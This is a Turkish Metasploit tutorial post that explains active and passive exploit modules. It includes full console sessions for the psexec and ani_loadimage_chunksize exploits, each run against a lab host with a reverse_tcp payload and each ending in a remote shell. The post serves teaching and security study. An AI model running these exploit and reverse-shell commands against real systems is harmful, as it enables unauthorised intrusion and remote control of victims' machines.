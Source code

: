 ```yaml
---
draft: false
title: MSF İçinde Exploit Çeşitleri
date: 2017-05-13T12:34:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Metasploit Framework içerisinde tüm exploit modülleri aktif ve pasif olarak gruplandırılırlar.
url: /tr/msf-icinde-exploit-cesitleri/
featured_image: /images/metasploit.jpg
weight: 60
translationKey: msf-exploit-types
categories:
  - Metasploit Framework
tags:
  - cybersecurity
  - metasploit framework
linkTitle: Exploit Çeşitleri
keywords:
  - exploit
---
```

Metasploit Framework içerisinde tüm exploit modülleri **aktif** ve **pasif** olarak gruplandırılırlar.

## Aktif Exploit

Aktif exploitler, belirli bir hedef üzerinde çalışacak ve işlem tamamlanana kadar çalışmaya devam edecektir. Herhangi bir hata ile karşılaştığında çalışmayı durdururlar.

Örneğin, Brute-force modülü hedef bilgisayarda bir shell komut satırı açılana kadar çalışır ve işlemi bitince durur. İşlemlerinin tamamlanması uzun zaman alabileceğinden `-j` parametresi kullanılarak arka plana gönderilebilirler.

Aşağıdaki örnekte, ms08_067_netapi explotinin çalışmaya başlatılıp arka plana gönderildiğini görebilirsiniz.

```bash
msf exploit(ms08_067_netapi) > exploit -j
> Exploit running as background job.
msf exploit(ms08_067_netapi) >
```

## Aktif Exploit Örneği

Bu örnekte, önceden keşif ile bilgileri elde edilen bir hedef bilgisayarın (192.168.1.100) gerekli değişkenleri ayarlanması ve çalışmaya başlaması görülmektedir. Hedef bilgisayarda shell açmak için psexec exploiti ve içerisinde reverse_tcp payload modülü kullanılmaktadır.

```bash
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.100
RHOST => 192.168.1.100
msf exploit(psexec) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(psexec) > set LPORT 4444
LPORT => 4444
msf exploit(psexec) > set SMBUSER victim
SMBUSER => victim
msf exploit(psexec) > set SMBPASS s3cr3t
SMBPASS => s3cr3t
msf exploit(psexec) > exploit

> Connecting to the server...
> Started reverse handler
> Authenticating as user 'victim'...
> Uploading payload...
> Created \hikmEeEM.exe...
> Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
> Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
> Obtaining a service manager handle...
> Creating a new service (ciWyCVEp - "MXAVZsCqfRtZwScLdexnD")...
> Closing service handle...
> Opening service...
> Starting the service...
> Removing the service...
> Closing service handle...
> Deleting \hikmEeEM.exe...
> Sending stage (240 bytes)
> Command shell session 1 opened (192.168.1.5:4444 -> 192.168.1.100:1073)

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

## Pasif Exploit

Pasif Exploitler, yerel bilgisayarda (kendi bilgisayarımız) pasif olarak çalışır ve dinlemede kalırlar. Hedef bilgisayarın bir şekilde yerel bilgisayara bağlanmasını beklerler.

Pasif exploitler neredeyse her durumda Web tarayıcı, FTP vb. istemciler üzerine odaklanırlar. Eposta ile gönderilen dosyalar içerisinden bağlantılarda da kullanılabilirler. Pasif exploit çalıştığında beklemeye başlar. Ne zaman bir kullanıcı sitedeki linke tıklar veya bir işlem yapar, işte o zaman dinlemedeki pasif exploit sinyali alır ve hedefte bir **shell** açar.

Arka planda çalışan ve dinleme yapan exploitlerin listesini `sessions` komutuna `-l` parametresi vererek görebilirsiniz. Listeden istediğiniz `ID` numaralı işleme gitmek için `-i` parametresini kullanabilirsiniz.

```bash
msf exploit(ani_loadimage_chunksize) > sessions -l

Active sessions
**===============**

  Id  Description  Tunnel
  --  -----------  ------
  1   Meterpreter  192.168.1.5:52647 -> 192.168.1.100:4444

msf exploit(ani_loadimage_chunksize) > sessions -i 1
> Starting interaction with 1...

meterpreter >
```

## Pasif Exploit Örneği

Aşağıdaki örnekte, loadimage_chunksize exploiti ve reverse_tcp payload u kullanılarak bir kullanıcının Web sayfasına girmesi beklenmeye başlanmaktadır. `LHOST` değişkeni yerelde dinleme yapacak bilgisayar IP adresini, `LPORT` ise yerel bilgisayarda dinlenme yapacak port numarasını ifade eder.

```bash
msf > use exploit/windows/browser/ani_loadimage_chunksize
msf exploit(ani_loadimage_chunksize) > set URIPATH /
URIPATH => /
msf exploit(ani_loadimage_chunksize) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(ani_loadimage_chunksize) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(ani_loadimage_chunksize) > set LPORT 4444
LPORT => 4444
msf exploit(ani_loadimage_chunksize) > exploit
> Exploit running as background job.

> Started reverse handler
> Using URL: <a href="http://0.0.0.0:8080/">http://0.0.0.0:8080/</a>
>  Local IP: <a href="http://192.168.1.5:8080/">http://192.168.1.5:8080/</a>
> Server started.
msf exploit(ani_loadimage_chunksize) >
> Attempting to exploit ani_loadimage_chunksize
> Sending HTML page to 192.168.1.100:1077...
> Attempting to exploit ani_loadimage_chunksize
> Sending Windows ANI LoadAniIcon**()** Chunk Size Stack Overflow (HTTP) to 192.168.1.100:1077...
> Sending stage (240 bytes)
> Command shell session 2 opened (192.168.1.5:4444 -> 192.168.1.100:1078)

msf exploit(ani_loadimage_chunksize) > sessions -i 2
> Starting interaction with 2...

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\victim\Desktop>
```

Anlatılmasını istediğiniz diğer başlıkları bize iletebilirsiniz.

## Video Anlatım

{{< youtube liQEKnvzhQE >}}
